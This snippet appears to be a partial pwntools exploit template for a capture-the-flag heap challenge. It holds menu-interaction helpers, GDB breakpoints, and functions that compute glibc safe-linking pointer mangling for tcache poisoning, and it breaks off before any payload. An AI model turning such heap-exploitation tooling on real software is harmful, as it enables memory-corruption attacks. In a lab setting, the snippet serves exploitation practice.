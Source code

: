 ```python3=
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()

def add(idx, size, data):
    slna(b'> ',1)
    slna(b'Index: ',idx)
    slna(b'Size: ',size)
    sa(b'Data: ',data)

def ed(idx, data):
    slna(b'> ',2)
    slna(b'Index: ',idx)
    sa(b'Data: ',data)

def rm(idx):
    slna(b'> ',3)
    slna(b'Index: ',idx)

def rd(idx):
    slna(b'> ',4)
    slna(b'Index: ',idx)

def gen(pos, ptr):
    pos = p64(pos >> 12)
    ptr = p64(ptr)
    return u64(xor(pos, ptr))

def de(pen, ptr):
    pen = p64(pen)
    ptr = p64(ptr)
    return u64(xor(pen, ptr))

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+90
        b*add_note+166
        b*remove_note+115

        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p

host = ''
port = 0

if args.REMOTE:
    # p = remote(host,port,ssl=True)
```